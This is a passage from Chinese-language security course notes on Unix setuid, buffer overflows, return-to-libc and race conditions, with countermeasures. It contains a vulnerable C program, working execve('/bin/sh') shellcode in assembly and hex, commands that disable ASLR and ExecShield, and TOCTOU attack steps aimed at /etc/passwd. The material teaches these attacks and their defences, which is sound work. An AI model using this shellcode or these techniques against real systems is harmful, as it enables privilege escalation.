    +   如果调用进程的有效 UID 不是超级用户，但是 UID 是调用进程的真实 UID 或者保存的 UID，那么有效 UID 会设置为`uid`。这类似于`seteuid`。
+   示例（在 Fedora 中）：进程使用有效 UID = 0 来运行，真实 UID= 500，在调用它们之后，有效和真实 UID 是什么？
    +   `setuid(500); setuid(0);`：答案：500/500（第一个调用生成 500/500，第二个调用失败）。
    +   `seteuid(500); setuid(0);`：答案：0/500（第一个调用生成 500/500，第二个调用生成 0/500）。
    +   `seteuid(600); setuid(500);`：答案：500/500（第一个调用生成 600/500，第二个调用生成 500/500）。
    +   `seteuid(600); setuid(500); setuid(0);`：答案：0/500（第一个调用生成 600/500，第二个调用生成 500/500，第三个调用生成 0/500）。

## 四、缓冲区溢出漏洞和攻击

### 1 内存

> 这个讲义的“区域”（Area）和“段”（Segment）与多数教程正好相反，译文中已更正。

在 PC 架构中，程序中有四个基本读写段：栈、数据、BSS 和堆。数据、BSS 以及堆区可统称为“数据区域”。在“内存布局和栈”的教程中，Peter Jay Salzman 详细描述了内存布局。

+   栈：栈通常在内存的高地址。通常“向下增长”：从高地址到低地址。无论何时进行函数调用，栈都会使用。

+   数据区域

    +   数据段：包含程序所用的全局变量，它们不被初始化为 0。例如，字符串`hello world`由` char s[] = "hello world" `定义，它在 C 中存在于数据段。
    +   BSS 段：起始于数据段的末尾，并包含所有初始化为 0 的全局变量。例如，变量声明为` static int `，会包含在 BSS 段中。
    +   堆段：起始于 BSS 段的末尾，向高地址增长。堆段由`malloc`库管理。堆段由程序中所有共享库以及动态加载模块共享。
    
### 2 栈缓冲区溢出

#### 2.1 栈的背景

+   栈布局：下面的图片展示了在执行流进入函数`func`之后，栈的布局。

    
    
+   栈方向：栈从高地址向低地址增长（而缓冲区正好相反）。

+   返回地址：函数返回后所执行的地址。

    +   在进入函数之前，程序需要记住从函数返回之后，应该返回到哪里。也就是需要记住返回地址。
    
    +   返回地址是函数调用下一条指令的地址。
    
    +   返回地址会储存在栈上。在 x86 中，指令`call func`会将`call`语句下一条指令的地址压入栈中（返回地址区域），之后跳到`func`的代码处。
    
+   帧指针（FP）：用于引用局部变量和函数参数。这个指针储存在寄存器中（例如 x86 中是`ebp`寄存器）。下面，我们使用`$FP`来表示`FP`寄存器的值。

    +   `variable_a`被引用为`$FP-16`。
    +   `buffer`被引用为`$FP-12`。
    +   `str`被引用为`$FP+8`。

+   缓冲区溢出问题：上面的程序拥有缓冲区溢出问题。

    +   函数`strcpy(buffer, str)`将内存从`str`复制到`buffer`。
    +   `str`指向的字符串多于 12 个字符，但是`buffer`的大小只为 12。
    +   函数`strcpy`不检查`buffer`是否到达了边界。它值在看到字符串末尾`\0`时停止。
    +   所以，`str`末尾的字符会覆盖`buffer`上面的内存中的内容。
    
#### 2.2 漏洞程序

现在，让我们来看一个更复杂的程序。不像前面的程序，用于覆盖返回地址的字符串不是静态字符串，它通常由用户提供。换句话说，用户可以决定字符串中包含什么。

```c
/* stack.c */
/* This program has a buffer overflow vulnerability. */ 
/* Our task is to exploit this vulnerability */ 
#include <stdlib.h> 
#include <stdio.h> 
#include <string.h>
int func (char *str) { 
    char buffer[12];
    /* The following statement has a buffer overflow problem */ 
    strcpy(buffer, str);
    return 1;
}
int main(int argc, char **argv) { 
    char str[517]; 
    FILE *badfile;
    badfile = fopen("badfile", "r"); 
    fread(str, sizeof(char), 517, badfile); 
    func (str); 
    printf("Returned Properly\n"); 
    return 1;
}
```

我们并不难以看到上面的程序拥有缓冲区溢出问题。这个程序首先从`badfile`文件读取输入，之后将输入传递给`bof`中另一个缓冲区。原始输入最大为 517 个字节，但是`bof`中的缓冲区只有 12 个字节。因为`strcpy`不检查边界，会发生缓冲区溢出。如果这个程序是 Set-Root-UID 程序，普通用户就可以利用这个缓冲区溢出漏洞，并得到 Root 权限。

#### 2.3 利用缓冲区溢出漏洞

为了完全利用栈缓冲区溢出漏洞，我们需要解决几个挑战性的问题。

+   注入恶意代码：我们需要能够像目标进程的内存中注入恶意代码。如果我们可以控制目标程序中，缓冲区的内存，就可以完成它。例如，在上面的例子中，程序从文件获取输入。我们可以将恶意代码保存到文件中，并且目标程序会将其读入内存。

+   跳到恶意代码：使用内存中已有的恶意代码，如果目标程序可以跳到恶意代码的起始点，攻击者就能控制它。

+   编写恶意代码：编写恶意代码并不犊砸，我们就展示一种特定类型的恶意代码，Shellcode，如何编写。

#### 2.4 注入恶意代码

使用程序中的缓冲区溢出漏洞，我们可以轻易向运行的程序的内存中注入恶意代码。让我们假设恶意代码已经编写好了（我们会在稍后讨论如何编写恶意代码）。

在上面的漏洞程序中，程序从文件`badfile`读取内存，并且将内存复制到`buffer`。之后，我们可以简单将恶意代码（二进制形式）储存在`badfile`中，漏洞程序会将恶意代码复制到栈上的`buffer`（它会溢出`buffer`）。

#### 2.5 跳到恶意代码



+   为了跳到我们已经注入到目标程序栈上的恶意代码，我们需要知道代码的绝对地址，如果我们事先知道地址，在溢出缓冲区时，我们就可以使用这个地址来覆盖存放返回地址的内存。因此，当函数返回时，他就会返回到我们的恶意代码。

+   下面就是寻找恶意代码从哪里开始的挑战。

+   如果目标程序是个 Set-UID 程序，你可以复制这个程序，并使用你自己的权限来执行。你可以用这个方式来调试程序（要逐级你不能调试 Set-UID 程序）。在调试器中，你可以弄清楚`buffer`的地址，因此计算出恶意代码的起始点。`buffer`的地址可能和你运行 Set-UID 副本时不同，但已经很接近了。你可以尝试多个值。

+   如果目标程序远程运行，并且你可能不能依赖调试器来寻找地址。但是，你可以始终猜测它。下面的事实是的猜测变得可行：

    +   栈通常起始于相同地址。
    +   栈通常不是很深：多数程序不会一次性压入成百上千字节。
    +   因此我们需要猜测的栈的范围实际非常小。
    
+   提升几率：为了提升成功的几率，我们可以向恶意代码的顶部添加许多 NOP 指令。NOP 是个特殊的指令，除了步进到下一条指令之外，不做任何事情。因此，只要猜测的地址指向了 NOP 指令之一，攻击就成功了。使用这些 NOP，猜测指向恶意代码的正确地址的几率就会显著增加。

#### 2.6 恶意代码：Shellcode

在前面的讨论中，我们假设恶意代码已经是可用的。这个章节中，我们会讨论如何编写这种恶意代码。

如果我们可以让特权程序执行我们的代码，我们想要它执行什么代码呢？最强大的代码就是调用 Shell，所以我们可以在其中执行任何我们想要执行的代码。目标为加载 Shell 的程序就叫做 Shellcode。为了了解如何编写 Shellcode，让我们来看看下面的 C 程序：

```c
#include <stdio.h>
int main( ) { 
    char *name[2];
    name[0] = "/bin/sh"; 
    name[1] = NULL; 
    execve(name[0], name, NULL);
}
```

在我们将上面的程序编译为二进制代码之后，我们可以在缓冲区溢出工集中，直接使用二进制代码作为 Shellcode 嘛？事情并不是那么容易。如果我们直接使用上面的代码，就会有几个问题：

+   首先，为了调用系统调用`execve`，我们需要知道`/bin/sh`的地址。字符串保存在哪里，以及如何获取字符串位置，并不是复杂的问题。

+   其次，代码中有一些空字符。这会使`strcpy`停止，如果漏洞由`strcpy`导致，我们就会有问题。

为了解决第一个问题，我们可以将字符串`/bin/sh`压入栈中，之后使用栈指针`esp`获取字符串位置。为了解决第二个问题，我们可以将包含 0 的指令转换为另一条不包含 0 的指令，例如，为了将 0 储存到寄存器中，我们可以使用 XOR 指令，而不是直接将寄存器赋为 0。下面是个用汇编语言编写的 Shellcode 的例子：

```asm
Line 1: xorl %eax,%eax 
Line 2: pushl %eax        # push 0 into stack (end of string) 
Line 3: pushl $0x68732f2f # push "//sh" into stack 
Line 4: pushl $0x6e69622f # push "/bin" into stack 
Line 5: movl %esp,%ebx    # %ebx = name[0] 
Line 6: pushl %eax        # name[1] 
Line 7: pushl %ebx        # name[0] 
Line 8: movl %esp,%ecx    # %ecx = name 
Line 9: cdq               # %edx = 0 
Line 10: movb $0x0b,%al 
Line 11: int $0x80        # invoke execve(name[0], name, 0)
```

Shellcode 中的一些地方需要注意：

+   首先，第三条指令将`/sh`压入到栈中。这是因为我们需要一个 32 位数值，`/sh`只有 24 位，幸运的是，`//`等价于`/`，所以我们可以使用两个斜杠字符。

+   其次，在调用`execve`系统调用之前，我们需要将`name[0]`（字符串地址），`name`（数组地址），以及`NULL`储存到`%ebx`、`%ecx`以及`%edx`寄存器。

    +   第五行将`name[0]`储存到`%ebx。
    +   第八行将`name`储存到`%ecx`。
    +   第九行将`%edx`设为 0。有其他将它设为 0 的办法（例如`xorl %edx, %edx`）。这里使用的`cdq`是个简单的指令，将 EAX 最高位（第 31 位）复制到 EDX 寄存器的每一位，也就是将`%edx`设为 0。
    
+   再者，`execve`系统调用在我们将`%al`设为 11 并执行`int $0x80`时调用。

如果我们将上面的代码转换为二进制，并将其储存在数组中，我们就行可以在 C 程序中调用：

```c
#include <stdlib.h> 
#include <stdio.h>

const char code[] = 
    "\x31\xc0" /* Line 1: xorl %eax,%eax */ 
    "\x50" /* Line 2: pushl %eax */ 
    "\x68""//sh" /* Line 3: pushl $0x68732f2f */ 
    "\x68""/bin" /* Line 4: pushl $0x6e69622f */ 
    "\x89\xe3" /* Line 5: movl %esp,%ebx */ 
    "\x50" /* Line 6: pushl %eax */ 
    "\x53" /* Line 7: pushl %ebx */ 
    "\x89\xe1" /* Line 8: movl %esp,%ecx */ 
    "\x99" /* Line 9: cdq */ 
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */ 
    "\xcd\x80" /* Line 11: int $0x80 */ ;

int main(int argc, char **argv) { 
    char buf[sizeof(code)]; 
    strcpy(buf, code); 
    ((void(*)( ))buf)( ); 
}
```

上面`main`函数中的`((void(*)( ))buf)( )`语句会调用 Shell，因为执行了 Shellcode。

### 3 对抗措施

#### 3.1 应用安全工程原则

+   使用强类型语言，例如 Java、C#，以及其他。使用这些语言，可以避免缓冲区溢出。

+   使用安全的库函数
    
    +   可能拥有缓冲区溢出问题的函数：`gets`、`strcpy`、`strcat`、`sprintf`。
    +   这些函数更加安全：`fgets`、`strncpy`、`strncat`以及`snprintf`。
    
#### 3.2 系统化代码修改

+   StackShield：分离控制（返回地址）和数据。
    +   它是保护返回地址的 GCC 编译器扩展。
    +   当函数调用时，StackShield 将返回地址复制到不能覆盖的区域。
    +   从函数返回时，返回地址被存储。因此，即使栈上的返回地址发生改变，也没有效果，因为原始的返回地址在返回地址用于跳转之前复制了回来。
    
+   StackGuard：标记缓冲区的边界
    +   观察：一个人需要覆盖返回地址之前的内存，来覆盖返回地址。换句话说，攻击者很难治修改返回地址，而不修改返回地址之前的栈内存。
    +   无论函数什么时候调用，都可以将一个哨兵值放在返回地址的旁边。
    +   如果函数返回值，哨兵值发生改变，就代表发生了缓冲区溢出。
    +   StackGuard 也内建于 GCC。
    +   我们可以理解 StackGuard 如何工作，通过下面的程序（我们模拟了编译器，手动将保护代码添加到函数中）。处于明显的原因，我们在这个例子中使用整数作为哨兵值，它还不够强大。我们可以使用多个整数作为哨兵值。
    
    ```c
    /* This program has a buffer overflow vulnerability. */ 
    /* However, it is protected by StackGuard */ 
    #include <stdlib.h> 
    #include <stdio.h> 
    #include <string.h>
    int func (char *str) {
        int canaryWord = secret; 
        char buffer[12];
        /* The following statement has a buffer overflow problem */ 
        strcpy(buffer, str);
        if (canaryWord == secret) // Return address is not modified 
            return 1; 
        else { // Return address is potentially modified 
            ... error handling ... 
        }
    }
    static int secret; // a global variable
    int main(int argc, char **argv) { 
        // getRandomNumber will return a random number 
        secret = getRandomNumber();
        char str[517]; 
        FILE *badfile;
        badfile = fopen("badfile", "r"); 
        fread(str, sizeof(char), 517, badfile); 
        func (str); 
        printf("Returned Properly\n"); 
        return 1;
    }
    ```
    
#### 3.3 操作系统方法

+   地址空间随机化（ASLR）：猜测恶意代码的地址空间是一个缓冲区溢出的关键步骤。如果我们可以使恶意代码的地址难以预测，攻击就能变得更困难。多种 Linux 发行版都已经使用了 ASLR 来随机化堆和栈的起始地址。这使得猜测准确地址变得困难。下面的命令（只能由 Root 运行）开启或禁用 ASLR：

    ```
    # sysctl -w kernel.randomize_va_space=2 // Enable Randomization 
    # sysctl -w kernel.randomize_va_space=0 // Disable Randomization
    ```
    
    不幸的是，在 32 位机器上，即使地址空间随即化了，熵依然不是非常大，来放置猜测。实际上，如果你尝试多次，你的成功率就会非常高。我们的经验表明，几分钟的尝试足以成功利用 Intel 2GHz 的机器。
    
+   不可执行栈：从攻击中，我们可以观察到，攻击者将恶意代码放置在栈上，并跳转到它。由于栈是数据而不是代码的地方，我们可以将栈配置为不可执行，因此防止了恶意代码的执行。

    这个保护机制叫做 ExecShield，多种 Linux 发行版已经实现了该机制。ExecShield 本质上禁止了储存在栈上的任意代码的执行。下面的代码（只能由 Root 执行）开启或禁用了 ExecShield。
    
    ```
    # sysctl -w kernel.exec-shield=1 // Enable ExecShield 
    # sysctl -w kernel.exec-shield=0 // Disable ExecShield
    ```
    
    在下一节中，我们可以看到，这种保护模式并没有解决缓冲区溢出问题，因为另一种类型的攻击，叫做 Return-to-Libc 攻击不需要可执行的栈。
    
### 4 不可执行栈和 Return-to-Libc 攻击

为了利用基于栈的缓冲区溢出漏洞，攻击者需要将代码段注入到用户的栈上，之后执行栈上的代码。如果我们使栈的内存段不可执行，即使代码注入到了栈中，代码也不能够执行。这样，我们就可以放置缓冲区溢出攻击。严格来说，这易于实现，因为现代 CPU 架构（例如 x86）的确允许操作系统来将一块内存变为不可执行。但是，还是没有那么简单：许多操作系统，例如 Linux，将代码保存到栈中，因此需要可执行的栈。例如，Linux 为了处理信号，需要在用户栈中放置代码序列。这个序列会在处理信号时执行。

新版本的 Linux 已经使栈只存放数据了。因此，栈可以配置成不可执行。在 Fedora 中，我们可以执行下列命令来使栈不可执行：

```
# /sbin/sysctl -w kernel.exec-shield=1
```

不幸的是，使栈不可执行不能完全放置缓冲区溢出。它使运行栈上的代码变得不可能，但是还有其它方法来利用缓冲区溢出漏洞，不需要执行栈上的任意代码。Return-to-Libc 攻击就是这种攻击。

为了理解这种新型攻击，让我们回忆从栈中执行恶意代码的主要目的。我们知道它为了调用 Shell。问题就是，我们是否能够不实用输入的代码来调用 Shell？这实际上是可行的：我们可以使用操作系统自身的代码来调用 Shell。更加具体来讲，我们可以使用操作系统的库函数来完成我们的目标。在类 Unix 系统中，叫做 Libc 的共享库提供了 C 运行时。这个库是多数 C 程序的基础，因为它定义了系统调用，以及其他基本的设施，例如`open`、`malloc`、`printf`、`system`，以及其他。Libc 的代码已经作为共享运行时库在内存中了，并且他可以被所有应用访问。

函数`system`是 Libc 中的函数之一。如果我们可以使用参数`/bin/sh`调用这个函数，我们就可以获得 Shell。这是 Return-to-Libc 攻击的基本原理。攻击的第一部分类似于使用 Shellcode 的攻击，它溢出了缓冲区，并修改了栈上的返回地址。第二部分所有不同。不像 Shellcode 方式，返回地址不指向任何注入的代码。它指向 Libc 中函数`system`的入口。如果我们执行正确，我们就可以强迫目标程序执行` system("/bin/sh")`，它会加载 Shell。

挑战：为了完成 Return-to-Libc 攻击，我们需要客服如下困难：

+   如何寻找`system`的位置？
+   如何寻找字符串`/bin/sh`的位置？
+   如何将字符串`/bin/sh`的地址传递给`system`函数？

#### 4.1 寻找`system`函数的位置

在多数 Unix 操作系统中， Libc 库始终加载到固定内存地址中。为了寻找 Libc 函数的地址，我们可以使用下面的 GDB 命令（假设`a.out`是任意程序）：

```
$ gdb a.out 
(gdb) b main 
(gdb) r 
(gdb) p system 
    $1 = {<text variable, no debug info>} 0x9b4550 <system> 
(gdb) p exit 
    $2 = {<text variable, no debug info>} 0x9a9b70 <exit>
```

从上面的 GDB 命令，我们可以发现，`system`函数的地址是`0x9b4550`，函数`exit`的返回地址是`0x9a9b70`。你系统中的实际地址可能不同。

我们也可以调用函数`dlopen`和`dlsym`来寻找 Libc 中函数的地址。

```c
#include <dlfcn.h>

#define LIBCPATH "/lib/libc.so.6" /* on Fedora */

void *libh, *sys;

if ((libh = dlopen(LIBCPATH, RTLD_NOW)) == NULL){ 
    // report error 
}

if (( sys = dlsym (libh, "system")) == NULL){ 
    // report error 
} 
printf("system @ %p\n", sys);
```

#### 4.2 寻找`/bin/sh`的地址

有几种方式来寻找这种字符串的地址：

+   使用缓冲区溢出问题，直接将地址插入栈中，之后猜测它的地址。

+   在执行漏洞程序之前，创建环境变量，值为`/bin/sh`。当 C 程序从 Shell 执行时，它就会从 Shell 继承所有环境变量。下面，我们定义了新的 Shell 变量`MYSHELL`，并使它的值为`/bin/sh`。

    ```
    $ export MYSHELL=/bin/sh
    ```
    
+   我们使用这个变量的地址作为`system`调用的参数。这个变量在内存中的位置可以使用下面的程序轻易在内存中找到：

    ```c
    void main() { 
        char* shell = getenv("MYSHELL"); 
        if (shell) 
            printf("%x\n", shell); 
    }
    ```
    
    如果站地址没有随机化，我们会发现打印出了相同地址。但是，当我们运行另一个程序时，环境变量的地址可能和你刚刚运行的程序不一样。这种地址在你修改程序名称时就可能改变（因为文件名称的字符数量不同了）。好消息是，Shell 的地址会很接近你是用上一个程序打印出来的东西。因此，你可能需要尝试几次直到成功。
    
+   我们也知道，函数`system`在自己的代码中使用`/bin/sh`。因此，字符串必然存在于 Libc。如果我们能够寻找字符串的位置，我们就可以直接使用这个字符串。你可以在 LIBC 库文件（`/lib/libc.so.6`）中搜索字符串`rodata`：

    ```
    $ readelf -S /lib/lib.so.6 | egrep ’rodata’ 
    [15] .rodata PROGBITS 009320e0 124030 ......
    ```
    
    上面命令的结果表明，`.rodata`段起始于`0x009320e0`。`.rodata`段用于储存不变数据，字符串常量`/bin/sh`应该储存在这一段内。你可以编写程序来在起始于`0x00932030`的内存中搜索字符串。
    
#### 4.3 将`/bin/sh`的地址传给`system`

为了让`system`执行命令`/bin/sh`，我们需要将命令字符串的地址作为参数传给`system`。就像调用任何函数那样，我们需要通过栈传递参数。因此，我们需要将参数放到栈上的正确位置。为了执行正确，我们需要清晰理解调用函数的时候，函数的栈帧如何构建。我们使用小型的 C 程序来理解函数调用在栈上的影响：

```c
/* foobar.c */ 
#include<stdio.h> 
void foo(int x) { 
    printf("Hello world: %d\n", x);
}
int main() { 
    foo(1); 
    return 0; 
}
```

我们可以使用`gcc -S foobar.c`来将这个程序编译为汇编代码。产生的文件`foobar.s`像这样：

```asm
   ...... 
 8 foo: 
 9 pushl %ebp 
10 movl %esp, %ebp 
11 subl $8, %esp 
12 movl 8(%ebp), %eax 
13 movl %eax, 4(%esp) 
14 movl $.LC0, (%esp) : string "Hello world: %d\n" 
15 call printf 
16 leave 
17 ret 
   ...... 
21 main: 
22 leal 4(%esp), %ecx 
23 andl $-16, %esp 
24 pushl -4(%ecx) 
25 pushl %ebp 
26 movl %esp, %ebp 
27 pushl %ecx 
28 subl $4, %esp 
29 movl $1, (%esp) 
30 call foo 
31 movl $0, %eax 
32 addl $4, %esp 
33 popl %ecx 
34 popl %ebp 
35 leal -4(%ecx), %esp 
36 ret
```

调用和进入`foo`。让我们专注于调用`foo`时的栈。我们可以忽略之前的栈。要注意，行号而不是指令地址用于解释。

+   28~29 行：两个语句将值 1，也就是`foo`的参数压入栈。这个操作使`%esp`增加了 4。两个豫剧之后的栈由图 3(a) 描述：

    

    图 3：`foo`的进入的返回

+   30 行：`call foo`：这个语句将`call`语句的下一条语句的地址压入了栈（也就是返回地址），并跳到`foo`的代码。当前的栈由图 3(b) 描述。

+   9~10 行：函数`foo`的第一行将`%ebp`压入了栈，来保存上一个帧指针。第二行让`%ebp`指向当前的帧。当前的栈由图 3(c) 描述。

+   11 行：` subl $8, %esp`：栈指针发生改变，来为局部变量和两个传给`printf`的参数分配空间（8 个字节）。所以函数`foo`中没有局部变量，8 字节全部用于参数。请见图 3(d)。

离开`foo`：现在控制流传给了函数`foo`。让我们看看当函数返回时，栈上发生了什么。

+   16 行：`leave`：这个指令隐式执行两条指令（在早期 x86 发行版中它是一个宏，但是后来做成了一个指令）：
    
    ```asm
    mov %ebp, %esp 
    pop %ebp
    ```

    第一条语句释放了为函数分配的栈空间，之后跳到了返回地址。当前的栈由图 3(e) 描述。
    
+   17 行：`ret`：这个指令只是弹出栈的返回地址，之后跳到返回地址，当前的栈图 3(f) 描述。

#### 4.4 `/bin/bash`中的保护

如果`/bin/sh`指向了`/bin/bash`，即使我们可以在权限的 Set-UID 程序中调用 Shell，我们也不能获得 Root 权限。这是因为 Bash 会自动降低它的权限，如果它执行在 Set-UID Root 上下文中。

但是，有几种方式来绕过这个保护模式。虽然`/bin/bash`限制了 Set-UID 程序的运行，它的确允许以真实的 Root 权限运行 Shell。所以，如果我们可以将当前的 Set-UID 进程转换为真实的 Root 进程，在我们调用`/bin/bash`之前，我们就可以绕过这个 Bash 的限制。`setuid(0)`系统调用可以帮助你实现它。因此，我们首先需要调用`setuid(0)`，之后调用`system("/bin/sh")`。所有这些可以使用 Return-to-Libc 机制来实现。

基本上，我们需要两次 Return-to-Libc。我们首先让目标程序返回到 Libc 的`setuid`函数。当这个函数返回时，它会从栈上抓取返回地址，并跳到该地址。如果我们可以让这个返回地址指向`system`，我们就可以让函数`setuid`强制返回到`system`的入口。在执行这个过程时，我们需要十分小心，因为我们需要将合理的参数放到栈的正确位置。

### 5 堆或 BSS 的缓冲区溢出

+   堆或 BSS 的内容
    +   字符串常量
    +   全局变量
    +   静态变量
    +   动态分配的内存
    
+   示例：覆盖文件指针
    
    ```c
    /* The following variables are stored in the BSS region */ 
    static char buf[BUFSIZE], *tmpfile;
    
    tmpfile = "/tmp/vulprog.tmp"; 
    gets(buf); /* buffer overflow can happen here */
    
    ... Open tmpfile, and write to it ...
    ```
    
    
    
    +   Set-UID 程序的文件指针指向了`/tmp/vulprog.tmp`。
    +   程序需要在执行期间，使用用户输入写入文件、
    +   如果我们可以使文件指针指向`/etc/shadow`，我们就可以使程序写入它。
    +   我们可以使用缓冲区溢出来改变变量`tmpfile`的内存。通常，它指向了`/tmp/vluprog.tmp`字符串。使用缓冲区溢出漏洞，我们就可以将`tmpfile`的内容修改为`0x903040`，它就是字符串`/etc/shadow`的地址。之后，当程序使用`tmpfile`变量打开文件来写入时，它实际上打开了`shadow`文件。
    +   如何寻找`/etc/shadow`？
        +   我们可将字符串作为参数传入程序，这样字符串`/etc/shadow`就储存在内存中。我们现在需要猜测它在哪里。
+   示例：覆盖函数指针：

    ```c
    int main(int argc, char **argv) { 
        static char buf[16]; /* in BSS */ 
        static int (*funcptr)(const char *str); /* in BSS */
        
        funcptr = (int (*)(const char *str))goodfunc;
        
        /* We can cause buffer overflow here */ 
        strncpy(buf, argv[1], strlen(argv[1]));
        
        (void)(*funcptr)(argv[2]); 
        return 0;
    }
    /* This is what funcptr would point to if we didn’t overflow it */ 
    int goodfunc(const char *str) { 
        ... ... 
    }
    ```
    
    
    
    +   函数指针（例如`int (*funcptr)(char *str)`）允许程序员动态修改被调用的函数。我们可以通过覆盖它的地址来覆盖函数指针，使之在执行时，它调用我们指向的函数。
    +   `argv[]`方式：将 Shellcode 储存在程序的参数中。这会使 Shellcode 储存在栈上。之后我们需要猜测它的地址（就像我们在栈溢出中那样）。这个方式需要可执行的栈。
    +   堆方式：将 Shellcode 储存在堆或 BSS 中（通过使用溢出）。之后我们需要猜测它的地址，并将估算的地址赋给函数指针。这个方式需要可执行的堆（比可执行的栈概率更大）。
+   函数指针
    +   函数指针可以通过多种手段储存在堆或 BSS 中。这不需要由程序员定义。
    +   如果程序调用了`atexit`，函数指针就会由`atexit`储存在堆上，并且会在程序终止前调用。
    +   `svc/rpc`注册函数（`librpc`, `libnsl`以及其他）将回调函数储存在堆上。
+   其它示例
    +   BSDI`crontab`基于堆的溢出：长文件名的传递会溢出静态缓冲区。在内存中的缓冲区上面，我们拥有`pwd`结构，它储存用户名、密码、UID、GID，以及其他。通过覆盖`pwd`的 UID/GID 字段，我们可以修改权限，使`crond`使用它执行我们的`crontab`（只要他尝试执行我们的`crontab`）。这个脚本之后可以产生 Suid Root Shell，因为我们的脚本会使用 UID/GID 0 来执行。

### 参考

1.  P. J. Salzman. Memory Layout And The Stack. In Book Using GNU’s GDB Debugger. URL: <http://dirac.org/linux/gdb/02a-Memory_Layout_And_The_Stack.php>.

## 五、竞态条件

### 1 竞态条件漏洞

+   下面的代码段属于某个特权程序（即 Set-UID 程序），它使用 Root 权限运行。

    ```c
    1: if (!access("/tmp/X", W_OK)) { 
    2: /* the real user ID has access right */ 
    3: f = open("/tmp/X", O_WRITE); 4
    : write_to_file(f); 
    5: } 
    6: else { 
    7: /* the real user ID does not have access right */ 
    8: fprintf(stderr, "Permission denied\n"); 
    9: }
    ```
    
    +   `access`系统该调用检查了真实 UID 或者 GID 是否拥有访问文件的权限，有的话返回 0。在代表真实 UID （而不是有效 UID）访问文件之前，该系统调用通常由 Set-UID 程序使用。
    +   `open`系统调用也执行访问控制，但是仅仅检查有效 UID 或 GID 是否拥有访问文件的权限。
    +   上面的程序想要写入文件`/tmp/X`。在这么做之前，它要确保，文件确实由真实 UID 写入。如果没有这种检查，程序可以写入这个文件，无论真实 UID 可不可以写入它，因为程序使用 Root 权限运行（即`open`所检查的有效 UID 是 Root）。
+   假设上面的程序执行的非常慢。执行程序中的每行语句需要一分钟。请思考下列问题：
    +   你可以使用这个程序来覆盖其它文件，例如`/etc/passwd`嘛？
    +   你不能修改该程序，但是你可以利用每两条语句之前的的一分钟。
    +   `/tmp`目录的权限为`rwxrwxrwx`，这允许任何用户在里面创建文件或链接。
    +   提示：`/tmp/X`不需要是真实文件，他可以是符号链接。
+   攻击策略：
    +   如果我们让`/tmp/X`在第一行之前打印`/etc/passwd`，`access`调用就会发现，真实 UID 没有权限来修改`/etc/passwd`。因此，执行流会来到`else`分支。在第一行之前，`/tmp/X`必须是一个能被真实 UID 写入的文件。
    +   显然，如果我们在第一行之后不做任何事情，`/tmp/X`会打开，攻击者不能获得任何东西。
    +   让我们专注于第一行和第三行之前的时间间隔。由于我们假设，程序执行得很慢。我们在第一行之后，第三行之前有一分钟的间隔。使用这个时间间隔，我们可以删掉`/tmp/X`并且使用相同名称创建符号链接。并使其指向`/etc/passwd`。
    +   如果我们这么做，会发生什么？
        +   通过遵循符号链接，程序使用`open`来打开` /etc/passwd`。
        +   `open`系统调用只检查有效 UID 或 GID 是否可以访问文件。由于这是个 Set-UID Root 程序，有效 UID 是 Root，它可以读写`/etc/passwd`。
        +   因此，第四行实际上会写入文件`/etc/passwd`。如果写入文件的内容也可以由用户控制，攻击者就可以修改密码文件，并且最终获得 Root 权限。如果内容不能由用户控制，攻击者可以破坏密码文件，组织其他用户登入系统。
+   回到现实：这个程序执行得很快，并且我们没有一分钟时间间隔。我们可以做什么？
+   竞态条件攻击
    +   使`/tmp/X`在访问和打开调用中，表现为两个文件。
    +   在`access(/tmp/X, W_OK)`之前，`/tmp/X`就是`/tmp/X`。
    +   在`access(/tmp/X, W_OK)`之后，将`/tmp/X`修改为`/etc/passwd`。
    +   如何实现？
        +   在两个调用之间只有很短的时间间隔。
        +   检查和使用之间的间隔：TOCTOU
        +   CPU 可能在`access`后进行上下文切换，之后执行其它进程。
        +   如果攻击进程在上下文切换之间，得到了机会来执行这种攻击，攻击就会成功。
        +   因为我们不能保证，第一行和第三行之间存在上下文切换，即使攻击程序在上下文切换期间，得到执行机会，攻击也可能失败。但是，如果执行一次不成功，我们可以多次执行攻击和目标程序。
+   提高成功率：竞态条件攻击的最关键步骤，出现在 TOCTOU 间隔中。由于我们不能修改漏洞程序，我们可以做的只有让我们的攻击程序和目标程序一起运行。并希望链接的时机正好就在间隔之内。不幸的是，我们不能完成完美的时间规划。因此，攻击是否成功是个概率。攻击成功的概率可能很低，如果间隔很小。我们如何提升概率呢？
    +   通过执行多个 CPU 密集的程序来拖慢计算机。
    +   创建多个攻击进程。
+   另一个例子（Set-UID 程序）：
    
    ```c
    file = "/tmp/X"; 
    fileExist = check_file_existence(file); 
    if (fileExist == FALSE){ 
        // The file does not exist, create it. 
        f = open(file, O_CREAT); 
    }
    ```
    
    +   在 Unix 中，我们使用`open`系统调用来创建文件。
    +   ` open(file, O_CREAT) `在文件不存在时创建文件，如果文件存在，它只会打开文件。
+   为什么存在漏洞？
    +   竞态条件：使文件在检查期间不存在，并使其在检查之后指向`/etc/passwd`。

### 2 预防措施

+   方式
    +   将检查和使用操作转为一条原子操作。如果我们可以使用一个系统调用来完成这种检查和使用的目的，我们就没有竞态条件。在多数操作系统中，系统条用不可以被另一个用户空间的进程大端，因此，在系统调用期间不可能有上下文切换。
    +   在检查和使用操作期间，确保相同文件名指向相同文件（也就是相同的 inode）。
    +   使赢得竞态条件的可能性非常低。
    +   如果不是必要，不要使用太多的权限。
+   使用原子操作
    +   如果系统调用可以在一条调用中执行检查和使用操作，它就是安全的，因为系统调用中不会发生上下文切换。
    +   `open(file, O_CREAT | O_EXCL)`可以在一条原子指令中检查和打开文件。如果文件已经存在，它就会返回错误，否则它会创建文件。`mkstemp`函数会按照模板生成一个唯一的临时文件名称。这个函数使用`O_EXCL`来使用`open`。来防止竞态条件问题。
    +   与之类似，我们可以为`open`创建另一个选项，来一起执行`access`和`open`。虽然这种选项不存在于 POSIX 标准中，但是它很容易实现。也就是，我们可以定义一个选项叫做`O_REAL_USER_ID`。当我们使用`open`调用`open(file, O WRITE | O REAL USER ID)`，我们让`open`检查有效和真实 UID，并仅当两个 UID 都有权限打开文件时，才打开文件。实际上，让 POSIX 标准委员会接收这个新的选项并不是很容易。
+   检查-使用-再检查方式
    +   `lstat(file, &result)`可以获取文件状态。如果文件是个符号链接，它返回链接的状态（不是链接指向的文件）。在 TOCTOW 之前，我们可以使用它来检查文件状态。接着在间隔之后，执行另一个检查。如果结果不同，我们就检测到了竞态条件。让我们看看下面的解决方案：
    
        ```c
            struct stat statBefore, statAfter;
        
        1:  lstat("/tmp/X", &statBefore);
        
        2:  if (!access("/tmp/X", O_RDWR)) { /* the real UID has access right */ 
